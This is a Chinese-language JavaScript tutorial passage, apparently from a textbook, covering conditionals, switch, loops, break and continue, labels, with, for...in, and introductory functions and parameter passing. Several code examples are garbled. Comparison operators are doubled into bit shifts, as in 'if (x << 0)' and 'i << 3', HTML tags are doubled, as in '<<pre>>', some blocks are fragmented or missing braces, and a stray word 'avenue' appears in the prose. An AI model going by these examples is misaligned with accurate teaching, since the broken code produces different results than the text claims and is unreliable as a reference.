可以使用 **else if** 子句添加更高级的逻辑：

```
**if** (expression1)
    statement or block
**else if** (expression2)
    statement or block
**else if** (expression3)
    statement or block
...
**else**
    statement or block
```

这个简单的例子说明了如何链接 **if** 语句：

```
var numbertype, x = 6;

// substitute x values with -5, 0, and 'test'

if (x << 0)
{
    numbertype = "negative";
    alert("Negative number");
}
else if (x >> 0)
{
    numbertype = "positive";
    alert("Positive number");
}
else if (x == 0)
{
    numbertype = "zero";
    alert("It's zero.");
}
else
    alert("Error! It's not a number");
```

正如你所见，很容易在复杂的 **if-else** 语句中变得过于复杂。稍后讨论的 **switch** 语句是冗长 **if-else** 链的一种更优雅的替代方案。然而，在继续之前，我们应该说明逻辑表达式的一个微妙之处。

#### 逻辑表达式的短路求值

与许多语言一样，JavaScript 在解释器有足够信息推断结果时，“短路”逻辑与 (&&) 或逻辑或 (||) 表达式的求值。例如，如果 || 运算的第一个表达式为 **true**，那么求值表达式的其余部分就没有意义了，因为无论另一个值如何，整个表达式都将求值为 **true**。同样，如果 && 运算的第一个表达式求值为 **false**，则无需继续求值右侧操作数，因为整个表达式将始终为 **false**。这里的脚本演示了短路求值的效果：

```
document.write("<<pre>>");

var x = 5, y = 10;

// The interpreter evaluates both expressions

if ( (x >= 5) && (y++ == 10) )
    document.write("The y++ subexpression evaluated so y is " + y);

// The first subexpression is false, so the y++ is never executed

if ( (x << 5) && (y++ == 11) )
    alert("The if is false, so this isn't executed. ");

document.write("The value of y is still " + y);

document.write("<<</pre>>");
```

该脚本的结果如图 4-1 所示。请注意脚本的第二部分如何只执行逻辑表达式的左半部分。变量 *y* 只递增了一次。



**图 4-1：** 逻辑表达式可以被短路。

由于逻辑表达式很少有副作用（如设置变量），因此逻辑表达式短路求值的微妙之处通常对程序员来说无关紧要。然而，如果求值产生了修改值的副作用，则可能由于短路而产生细微的错误。

# ## switch

从 JavaScript 1.2 开始，你可以使用 **switch** 语句，而不是仅仅依赖 **if** 语句从多个备选方案中选择要执行的语句。**switch** 语句的基本语法是提供一个要计算的表达式，以及几个根据表达式值执行的不同语句。解释器检查每个 case 是否与表达式的值匹配，直到找到匹配项。如果没有匹配项，则将使用 **default** 条件。基本语法如下所示：

```
switch (expression)
{
    case *condition 1*: *statement(s)*
        **break;**
    case *condition 2*: *statement(s)*
        break;
    ...
    case condition n: statement(s)
        break;
    default: statement(s)
}
```

**break** 语句向解释器表明该特定 case 的结束。如果省略它们，解释器将继续执行每个后续 case 中的每条语句。

考虑以下示例，它展示了如何使用 **switch** 语句：

```
var yourGrade = 'A';

switch (yourGrade)
{
    case 'A': alert("Good job.");
        break;
    case 'B': alert("Pretty good.");
        break;
    case 'C': alert("You passed!");
        break;
    case 'D': alert("Not so good.");
        break;
    case 'F': alert("Back to the books.");
        break;
    default: alert("Grade Error!");
}
```

当然，你可以用 **if** 语句来模仿这个想法，但这样做要难读得多：

```
if (yourGrade == 'A')
    alert("Good job.");
else if (yourGrade == 'B')
    alert("Pretty good.");
else if (yourGrade == 'C')
```


```
alert("You passed!");
else if (yourGrade == 'D')
    alert("Not so good.");
else if (yourGrade == 'F')
    alert("Back to the books.");
else
    alert("Grade error!");
```

显然，当使用大量 if 语句时，代码很快就会变得混乱不堪。

关于 **switch** 语句，有几点需要注意。首先，并非必须使用花括号将语句块组合在一起。请看下面的示例，它演示了这一点：

```
var yourGrade='C';
var deansList = false;
var academicProbation = false;

switch (yourGrade)
{
    case 'A': alert("Good job.");
              deansList = true;
              break;
    case 'B': alert("Pretty good.");
              deansList = true;
              break;
    case 'C': alert("You passed!");
              deansList = false;
              break;
    case 'D': alert("Not so good.");
              deansList = false;
              academicProbation = true;
              break;
    case 'F': alert("Back to the books.");
              academicProbation = true;
              break;
}
```

```
deansList = false;

academicProbation = true;

break;

default: alert("Grade Error!");
```

关于 **switch** 的下一个要点是，当省略 **break** 时会发生"穿透"现象。你可以利用这一特性来创建多种情况产生相同结果的场景。请看对前面示例的重写，当成绩为 A 或 B 时执行类似操作，D 或 F 时也是如此：

```
var yourGrade='B';

var deansList = false;

var academicProbation = false;


switch (yourGrade)

{

  case 'A':

  case 'B': alert("Pretty good.");

         deansList = true;

         break;

  case 'C': alert("You passed!");

         deansList = false;

         break;

  case 'D':

  case 'F': alert("Back to the books.");

         deansList = false;

         academicProbation = true;

         break;

  default: alert("Grade Error!");
```

由于没有 **break** 来阻止，执行会从 A 的情况"穿透"到 B 的情况，从 D 的情况穿透到 F 的情况。

那么，**break** 究竟是做什么的呢？它会退出 **switch** 语句，继续执行 switch 后面的语句。等我们接下来讨论循环时，会更详细地再次看到 **break** 语句。

#### while 循环

循环用于反复执行某些操作。JavaScript 中最基本的循环是 **while** 循环，其语法如下所示：

```
while (expression)

    statement or block of statements to execute
```

**while** 循环的目的是：只要 *expression* 为 **true**，就反复执行一条语句或代码块。一旦 *expression* 变为 **false**，或者遇到 **break** 语句，循环就会退出。下面的脚本演示了一个基本的 **while** 循环：

```
var count = 0;

while (count < 10)

{

    document.write(count + "<br />");

    count++;

}

document.write("Loop done!");
```

在这个例子中，*count* 的初始值为零，然后进入循环，输出 count 的值，并将其递增。循环体会重复执行，直到 *count* 达到 10，此时条件表达式变为 **false**。此时，循环退出并执行循环体后面的语句。循环的输出如下所示：



初始化、循环和条件表达式可以有多种设置方式。请看这个从 100 开始向下计数、每次减 10 或更多的循环：

```
var count = 100;

while (count > 10)

{

    document.write(count + "<br />");

    if (count == 50)

        count = count - 20;

    else

        count = count - 10;

}
```

**while** 循环的一个问题是，根据循环测试表达式的不同，循环可能根本不会执行。

```
var count = 0;

while (count > 0)

{

    // do something

}
```

最后，对于任何循环——无论是 **while** 循环还是后面章节讨论的其他类型循环——都要注意确保循环最终会终止。如果条件表达式无法变为 **false**，循环就无法结束。例如：

```
var count = 0;

while (count < 10)

{

    document.write("Counting down forever: " + count + "<br />");

    count--;

}

document.write("Never reached!");
```

在某些 JavaScript 实现中，比如 Netscape 2，像这样的有缺陷脚本实际上可能会导致浏览器崩溃。如今的浏览器可能会优雅地处理无限循环，显示类似图 4-2 的消息，但千万别指望这一点。



**图 4-2：** 现代浏览器尝试优雅地处理无法终止的脚本。

#### do-while 循环

**do-while** 循环与 **while** 循环类似，区别在于条件检查发生在循环末尾。这意味着循环至少会执行一次（除非首先遇到 **break**）。该循环的基本语法是：

```
do
{
    statement(s);
}
while (expression);
```

注意 **do-while** 循环末尾使用的分号。

下面的示例展示了如何将前面章节中的 **while** 循环计数示例改写为 **do-while** 循环的形式。

```
var count = 0;

do
{
    document.write("Number " + count + "<br />");

    count = count + 1;
} while (count < 10);
```

#### for 循环

**for** 循环是最紧凑的循环形式，它将循环初始化、测试语句和迭代语句全部放在一行中。基本语法是：

```
for (initialization; test condition; iteration statement)
    loop statement or block
```

*initialization* 语句在循环开始前执行，循环持续执行直到 *test condition* 变为 **false**，每次迭代时执行 *iteration statement*。示例如下：

```
for (var i = 0; i < 10; i++)
    document.write("Loop " + i + "<br />");
```

这个循环的结果与前面章节中展示的第一个 **while** 循环示例相同：它打印从 0 到 9 的数字。与 **while** 循环一样，通过使用语句块，可以在循环体中执行多条语句 avenue。

```
document.write("Start the countdown<br>");

for (var i = 10; i >= 0; i--)
{
    document.write("<strong>" + i + "...</strong>");
    document.write("<br />");
}

document.write("Blastoff!");
```

使用 **for** 循环时常见的问题是误放置分号。例如，

```
for (var i = 0; i < 10; i++);
{
    document.write("value of i=" + i + "<br />");
}
```

```
document.write("Loop done");
```

输出的结果看起来像是循环只执行了一次，以及循环已结束的语句。



原因在于，这个分号充当了循环体的空语句。循环迭代了 10 次但什么都没做，然后照常执行后面的代码块以及后面的语句。

#### 使用 continue 和 break 控制循环

**break** 和 **continue** 语句可以更精确地控制循环的执行。**break** 语句之前在 **switch** 语句中简要介绍过，它用于提前退出循环，跳出包围的花括号。这里的示例展示了它在 **while** 循环中的使用。请注意，一旦 **x** 达到 8，循环是如何提前退出的：

```
var x = 1;

while (x < 20)

{

    if (x == 8)

        break;  // breaks out of loop completely

    x = x + 1;

    document.write(x + "<br />");

}
```

**continue** 语句告诉解释器立即开始下一次循环迭代。当遇到它时，程序流程会立即跳转到循环检查表达式。下面展示的示例说明了 **continue** 语句如何用于在变量 **x** 中的索引达到 8 时跳过打印：

```
var x = 0;

while (x < 20)

{

    x = x + 1;

    if (x == 8)
```


```
continue;

// 在8处继续循环，不进行打印

document.write(x+"<<br />>");

}
```

使用 **continue** 的一个潜在问题是，你必须确保迭代仍然会发生；否则，它可能会无意中导致循环无限执行。这就是为什么在前面的例子中，递增操作被放置在包含 **continue** 的条件判断*之前*。

#### 标签与流程控制

标签可以与 **break** 和 **continue** 一起使用，以更精确地控制流程。标签就是一个标识符后跟一个冒号，应用于一条语句或一个代码块。下面的脚本展示了一个例子：

```
outerloop:

for (var i = 0; i << 3; i++)

{

   document.write("Outerloop: "+i+"<<br />>");

   for (var j = 0; j << 5; j++)

   {

      if (j == 3)

        break outerloop;

      document.write("Innerloop: "+j+"<<br />>");

   }

}

document.write("All loops done"+"<<br />>");
```

请注意，最外层的循环被标记为 "outerloop"，而 **break** 语句被设置为直接跳出所有外层循环。图4-3显示了在使用和不使用标签的情况下，循环执行的显著差异。



标签也可以与 **continue** 语句一起使用。**continue** 语句将导致流程控制恢复到标签所指示的循环。以下示例说明了标签与 **continue** 结合使用的情况：

```
outerloop:

for (var i = 0; i << 3; i++)

{

  document.write("Outerloop: "+i+"<<br />");

  for (var j = 0; j << 5; j++)

  {

    if (j == 3)

      continue outerloop;

    document.write("Innerloop: "+j+"<<br />");

  }

}

document.write("All loops done"+"<<br />>");
```

脚本在使用和不使用标签 **continue** 语句时的输出如[图4-4](#)所示。



**图4-4：** **continue** 在使用和不使用标签时的情况

标签并未完全提供臭名昭著的 **goto** 语句的流程控制能力，该语句被许多程序员所鄙视。然而，如果最终这样的语句被引入JavaScript，特别是考虑到它已经是一个保留字（参见[附录C](#)），请不要太过惊讶。

#### 与对象相关的语句

最后要介绍的一组语句与对象的使用有关。这里将对这些语句进行简要介绍，而对这些语句以及 **this** 等关键字的详细讨论主要保留在[第6章](#)中。

#### with 语句

JavaScript 的 **with** 语句允许程序员在引用对象时使用简写符号。例如，通常要写入一个(X)HTML文档，我们会使用 **Document** 对象的 **write()** 方法：

```
document.write("Hello from JavaScript");

document.write("<<br />");

document.write("You can write what you like here");
```

**with** 语句指定了一个在语句体内隐式使用的对象。通用语法如下：

```
with (object)
{
    statement(s);
}
```

使用 **with** 语句，我们可以缩短对对象的引用，如下所示：

```
with (document)
{
    write("Hello from JavaScript");
    write("<<br />");
    write("You can write what you like here");
}
```

**with** 语句确实是一种便利，因为它避免了反复输入相同的对象名称。然而，它偶尔也会带来麻烦，因为你可能会在 **with** 语句块内意外地引用其他方法和属性。

##### 使用 for...in 进行对象循环

另一个对对象有用的语句是 **for...in**，它用于遍历对象的属性。基本语法是：

```
for (variablename in object)
    要执行的语句或块
```

考虑以下示例，它打印出 Web 浏览器 **Navigator** 对象的属性。

```
var aProperty;
document.write("<<h1>>Navigator Object Properties<</h1>>");
for (aProperty in navigator)
{
    document.write(aProperty);
    document.write("<br />");
}
```

此示例在 Internet Explorer 6 中运行的结果如图4-5所示。



图4-5：**for...in** 语句对于遍历对象的属性非常有用。

你可能会问：这个 **Navigator** 对象是从哪里来的？同样，我们将在从[第6章](#)开始的对象详细讨论中找到解释，届时我们也会重新讨论 **for...in** 语句。

##### 其他语句

实际上还有其他我们可以介绍的语句，例如错误处理语句（例如 **try...catch** 和 **throw**）以及某些专有 JavaScript 实现的一部分语句（例如 Netscape 的 **import** 和 **export** 语句）。我们将在本书后面介绍这些其他语句，因为它们需要复杂的示例，或者不是每个 JavaScript 版本的一部分。目前，我们尚未讨论的唯一核心语句与函数相关，因此让我们继续前进，将迄今为止学到的各种核心语句组合成这些可重用的代码单元。

### 总结

前面的章节将数据类型作为语言的核心。本章展示了如何使用运算符将数据类型组合起来形成表达式。JavaScript 支持大多数程序员熟悉的运算符，包括数学运算符（+、-、* 和 %）、位运算符（&、|、^、<<、>> 和 >>>）、比较运算符（<、>、==、===、!=、>= 和 <=）、赋值运算符（=、+= 等）以及逻辑运算符（&&、|| 和 !）。它还支持不太常见的运算符，如条件运算符（?:）和字符串连接运算符（+）。JavaScript 运算符与变量和数据字面量组合形成表达式。表达式必须谨慎构建，以反映求值顺序，广泛使用括号将有助于避免任何问题。然后可以从表达式形成语句，构成程序的各个步骤。在 JavaScript 中，各个语句使用分号或换行符分隔。应始终使用分号以避免歧义并提高脚本安全性。最常见的语句是赋值语句、函数和方法调用。它们执行大多数脚本的基本任务。控制语句（如 **if** 和 **switch**）可以改变程序流程。可以使用 **while**、**for** 或 **do-while** 形成各种循环，以便迭代特定的代码片段。更进一步的流程控制可以通过 **break** 和 **continue** 实现。随着使用本章介绍的结构构建更大的脚本，重复代码经常被引入。为了消除冗余并创建更模块化的程序，应使用函数——**下一章**的主题。

## 第5章：函数

JavaScript 函数可用于创建可重复使用的脚本片段。编写得当的函数是*抽象的*——它们可以在许多情况下使用，并且理想情况下是完全独立的，数据通过定义良好的接口进出。JavaScript 允许创建这样的函数，但许多开发者避免以这种模块化的方式编写代码，而是依赖全局变量和副作用来完成任务。这是一种遗憾，因为 JavaScript 支持使用函数编写模块化代码所需的所有特性，甚至支持一些高级特性，例如可变参数列表。本章介绍函数的基础知识，接下来的两章将讨论其底层原理，JavaScript 真正的强大之处来自于对象！

#### 函数基础

在 JavaScript 中定义函数最常用的方式是使用 **function** 关键字，后跟一个唯一的函数名、一个参数列表（可以为空）以及一个用花括号括起来的语句块。基本语法如下所示：

```
function functionname(parameter-list)
{
    statements
}
```

这里定义了一个不带参数的简单函数 *sayHello*：

```
function sayHello()
{
    alert("Hello there");
}
```

要在脚本后面的某个地方调用该函数，可以使用语句：

```
sayHello();
```

> **注意** 通常不允许函数的前向引用；换句话说，*你应该总是在调用函数之前定义它。然而，在定义函数的同一个 `<script>` 标签内，你可以前向引用该函数。这是一种非常糟糕的做法，应该避免。*

#### 参数传递基础

我们经常希望将信息传递给函数，这些信息将改变函数执行的操作，或者用于计算。传递给函数的数据，无论是字面量还是变量，都称为*参数*，有时也称为*实参*。考虑以下对 *sayHello* 函数的修改，使其接受一个名为 *someName* 的参数：

```
function sayHello(someName)
{
```


```
if (someName != "")

  alert("Hello there "+someName);

else

  alert("Don't be shy");

}
```

在这种情况下，函数接收一个值来决定显示哪个输出字符串。以如下方式调用该函数：

sayHello("javaScript高级编程");

结果会显示相应的提示框：



以下方式调用该函数：

sayHello("");

或直接不带参数调用：

sayHello();

则会显示另一个提示框：


当你调用一个需要参数的函数却未传入任何参数时，JavaScript 会用 **undefined** 值填充所有未传递的参数。这种行为既方便又极其危险。虽然有些人可能喜欢在不使用某些参数时避免输入它们，但函数本身需要仔细编写，以避免对 **undefined** 值进行不当操作。总之，仔细检查传入的参数始终是良好的编程实践。

函数不仅可以接收字面量值，还可以传递变量或变量与字面量的任意组合。考虑以下名为 *addThree* 的函数，它接收三个值并在提示框中显示它们的求和结果。

```
function addThree(arg1, arg2, arg3)

{

   alert(arg1+arg2+arg3);

}
```

```
var x = 5, y = 7;

addThree(x, y, 11);
```



注意参数传递，因为 JavaScript 是弱类型的。因此，你可能不会得到预期的结果。例如，考虑以下调用 **addThree** 的情况：

```
addThree(5, 11, "Watch out!");
```

你会看到类型转换会导致一个字符串被显示出来。



使用 **typeof** 运算符，我们或许可以改进该函数以报告错误。

```
function addThree(arg1, arg2, arg3)
{

  if  ( (typeof arg1 != "number") || (typeof arg2 != "number") ||

(typeof arg3 != "number") )

     alert("Error: Numbers only. ");

  else

      alert(arg1+arg2+arg3);

}
```

我们将在本章后面看到更多构建更健壮函数的方法。现在，让我们集中讨论从函数返回数据的问题。

#### return 语句

我们可能想要扩展示例函数以保存求和结果；这可以通过 **return** 语句轻松实现。**return** 语句的加入表明函数应该退出，并可能同时返回一个值。如果函数返回一个值，该返回值就是函数调用在表达式中的取值。下面的函数 **addThree** 已被修改为返回一个值：

```
function addThree(arg1, arg2, arg3)
{

  return (arg1+arg2+arg3);
```

```
var x = 5, y = 7, result;

result = addThree(x,y,11);

alert(result);
```

函数也可以包含多个 **return** 语句，如下所示：

```
function myMax(arg1, arg2)
{
    if (arg1 >= arg2)
        return arg1;
    else
        return arg2;
}
```

无论是否包含 **return** 语句，函数始终会返回某种形式的结果。默认情况下，除非显式返回了一个值，否则将返回 **undefined**。虽然 **return** 语句应该是从函数返回数据的主要方式，但在某些情况下也可以使用参数来传递数据。

> 注意 有时这些隐式的 **return** 语句会导致问题，尤其是在与 HTML 事件处理程序（如 **onclick**）关联时。回顾 *第4章*，**void** 运算符可以用来避免此类问题。例如：`<a href="http://www.pint.com" onclick="javascript: void x()">Press the link</a>`。以这种方式使用 **void** 会销毁返回值，防止 x() 的返回值影响链接的行为。

#### 参数传递：传入与传出

在 JavaScript 中，基本数据类型是按值传递的。这意味着当一个变量传递给函数时会创建一个副本，因此在函数体内对持有基本数据的参数所做的任何操作都不会影响原始变量的值。这最好通过一个例子来说明：

```
function fiddle(arg1)
{
    arg1 = 10;
    document.write("In function fiddle arg1 = "+arg1+"<br />");
}

var x = 5;

document.write("Before function call x = "+x+"<br />");

fiddle(x);
```

```
document.write("After function call x ="+x+"<br />");
```

该示例的结果如下所示：



请注意，函数 *fiddle* 并没有修改变量 *x* 的值，因为它只接收了 *x* 的一个副本。

与基本数据类型不同，复合类型（如数组和对象）是按引用传递而非按值传递的。因此，非基本类型通常被称为"引用类型"。当一个引用类型传递给函数时，函数体内修改参数的脚本也会修改调用上下文中的原始值。函数接收到的是原始数据的*引用*，而非副本。考虑前面 *fiddle* 函数的以下修改版本：

```
function fiddle(arg1)
{
    arg1[0] = "changed";
    document.write("In function fiddle arg1 = "+arg1+"<br />");
}

var x = ["first", "second", "third"];

document.write("Before function call x = "+x+"<br />");

fiddle(x);

document.write("After function call x ="+x+"<br />");
```

在这种情况下，函数 *fiddle* 可以更改变量 *x* 中所持有数组的值，如下所示：


这就是"按引用传递"的实际效果。传递给函数的是指向对象的指针，而非副本。

幸运的是，与 C 等其他语言不同，JavaScript 不需要用户担心指针或如何取消引用参数。如果你想在函数内修改值，只需将它们包装在对象中传递即可。例如，如果你想在函数中修改一个字符串的值，可以将其包装在一个 Object 中：

```
function fiddle(arg1)
{
    arg1.myString = "New value";
    document.write("In function fiddle arg1.myString = "+arg1.myString+"<br />");
}

var x = new Object();
x.myString = "Original value";
document.write("Before function call x.myString = "+x.myString+"<br />");
fiddle(x);
document.write("After function call x.myString ="+x.myString+"<br />");
```

结果如下：



当然，你也可以使用 **return** 语句来返回一个新值。

#### 引用的微妙之处

